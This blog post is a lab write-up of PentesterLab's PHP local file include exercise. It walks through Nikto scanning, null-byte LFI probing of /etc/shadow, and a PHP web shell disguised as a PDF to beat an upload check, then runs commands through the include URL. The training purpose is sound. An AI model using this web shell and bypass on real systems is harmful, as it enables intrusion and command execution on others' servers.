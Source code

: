 ```yaml
---
layout: post
title: "PentesterLab Bootcamp Part 5.2 - Local File Include"
date: 2017-01-18
description: "Walk-through guide to PentesterLab's bootcamp."
number: "0x0a"
---
```

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

This is part 5.2 of my write-up of PentesterLab's [Bootcamp](https://pentesterlab.com/bootcamp) course. If you see any errors or want to suggest I do something different, please [contact me](https://www.maxmunday.com/contact/) to let me know.

Write-up parts [1](https://www.maxmunday.com/blog/2016/05/14/pentesterlab-bootcamp-part-1-linux-and-scripting), [2](https://www.maxmunday.com/blog/2016/05/22/pentesterlab-bootcamp-part-2-http), [3](https://www.maxmunday.com/blog/2016/05/27/pentesterlab-bootcamp-part-3-php-and-dns), [4](https://www.maxmunday.com/blog/2016/08/09/pentesterlab-bootcamp-part-4-ssl-tls), [5.1](https://www.maxmunday.com/blog/2017/01/04/pentesterlab-bootcamp-part-5.1-sql-injection), [5.2](https://www.maxmunday.com/blog/2017/01/18/pentesterlab-bootcamp-part-5.2-local-file-include).


\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

<pre>
                   * * * [ DISCLAIMER ] * * *
/*
 * All information in this write-up is, to the best of my knowledge,  
 * truthful and accurate. However, I am only new to this, and I am   
 * learning as I go, so it is entirely possible something contained  
 * within this write-up is incorrect in some way. Never execute any  
 * command, without knowing for sure what it is you are doing. Look  
 * at the man pages of all commands if you do not understand them.  
 *
 * I take no responsibility if you decide to use this information   
 * to commit illegal acts. If you attempt to use these techniques  
 * against devices or networks you do not either own, or have    
 * permission to attack, you could end up in prison.  
 *
 */  
</pre>
 
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

\-\-[ Step 5 ]
 
This is the second part of step 5. This step has us run through two of PentesterLab's exercises: [From SQL Injection to Shell](https://pentesterlab.com/exercises/from_sqli_to_shell) (write-up available [here](https://www.maxmunday.com/blog/2017/01/04/pentesterlab-bootcamp-part-5.1-sql-injection)) and [PHP Include And Post Exploitation](https://pentesterlab.com/exercises/php_include_and_post_exploitation). Download the ISOs and run them in a VM, then access them in a browser using the IP address. [Here](https://www.youtube.com/watch?v=kdYuJDWxOHc) is a video if you need help setting it up.

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

\-\-[ PHP Include and Post Exploitation ]

PentesterLab provide an informative [written course](https://pentesterlab.com/exercises/php_include_and_post_exploitation/course) to work through for this exercise. I will not go through everything, I will just do a write-up of the solution as I see it. Run through their course to get the complete learning experience. 

\-\-[ Fingerprinting ]

This intial step is neccesary to gather information about the technologies in use within the web application. This is useful in determining what vulnerabilities may exist or where we can search for them. 

First we will run [Nikto](http://cirt.net/nikto2) on the webserver to check for known vulnerabilities and configuration issues.

![](/pictures/php_include_1.png){:height="288px" width="607px"}

It shows the following issues:

\* the version of Apache and PHP;  
\* a potential PHP include issue;  
\* a false positive (OSVDB-3126);  
\* OSVDB-12184 when PHP is configured with `exposed_php` turned on;  
\* some directories than can indexed;  
\* a login page.

\-\-[ Detection of PHP includes ]

To test for the PHP include issue we will try to generate some file inclusion error messages to get a better understanding of what we're dealing with.

We test with `vulnerable/index.php?page=randomvalue` and the following error is generated

![](/pictures/php_include_2.png){:height="61px" width="507px"}

We can see that the `.php` suffix has been added by the PHP code. 

Next we will try to access `/etc/shadow` using a Null Byte (`%00`) to escape the `.php` suffix

![](/pictures/php_include_3.png){:height="53px" width="588px"}

The `Permission denied` error message shows us that our Null Byte has worked.

We can test for remote file include by attempting to access `http://vulnerable/index.php?page=http://www.google.com/?`. If this is successful the Google page will open within the `vulnerable` page.

![](/pictures/php_include_4.png){:height="288px" width="640px"} 

From this error we can see that this system is not vulnerable to remote file inclusion and so we can assume there is a local file include vulnerablity. 

\-\-[ Exploitation ] 

To exploit a local file include we need to find a way to get the PHP code in a file on the system and get this code to be included. 

There can be many ways to do this, but we will attempt to upload our PHP code through the "Call for Papers" upload functionality on the application.

The application only accepts uploads in PDF format so we will create a PHP file that will appear to be a PDF to bypass the check.

To do this we create a text file with the following code

`$ nano lfi`

~~~
%PDF-1.4
<?php
  system($_GET["cmd"]);
?>
~~~

`$ mv lfi lfi.pdf`

The `%PDF-1.4` is the identifier that is checked by the PHP function `mime_content_type` in order to determine its type as a PDF. 

We can test to see if this will be interpreted as a PDF by the content-type checker by using the following code

~~~
<?php
echo mime_content_type('lfi.pdf') . "\n";
?>
~~~

And when we run it, we get 

![](/pictures/php_include_5.png){:height="38px" width="313px"}

Success! We have PHP code contained within what appears to be a PDF file.

We can now upload it via the "Call for Papers" section in the application. We need to add a username:password and submit our PDF. Once it is submitted, log back in and access the file location.

We can now access `vulnerable/index.php?page=uploads/lfi.pdf%00&cmd= ` to execute commands

![](/pictures/php_include_6.png){:height="228px" width="589px"}

NB: The course continues through shells, reverse shells and TCP redirection which I will go through in a different post.

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

/*\*\* [Part 1 - Linux and Scripting](https://www.maxmunday.com/blog/2016/05/14/pentesterlab-bootcamp-part-1-linux-and-scripting) \*\*\*/

/*\*\* [Part 2 - HTTP](https://www.maxmunday.com/blog/2016/05/22/pentesterlab-bootcamp-part-2-http) \*\*\*/

/*\*\* [Part 3 - PHP and DNS](https://www.maxmunday.com/blog/2016/05/27/pentesterlab-bootcamp-part-3-php-and-dns) \*\*\*/

/*\*\* [Part 4 - SSL/TLS](https://www.maxmunday.com/blog/2016/08/09/pentesterlab-bootcamp-part-4-ssl-tls) \*\*\*/

/*\*\* [Part 5.1 - SQL Injection](https://www.maxmunday.com/blog/2017/01/04/pentesterlab-bootcamp-part-5.1-sql-injection) \*\*\*/

/*\*\* Part 6- More SQL Injection COMING SOON \*\*\*/

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-
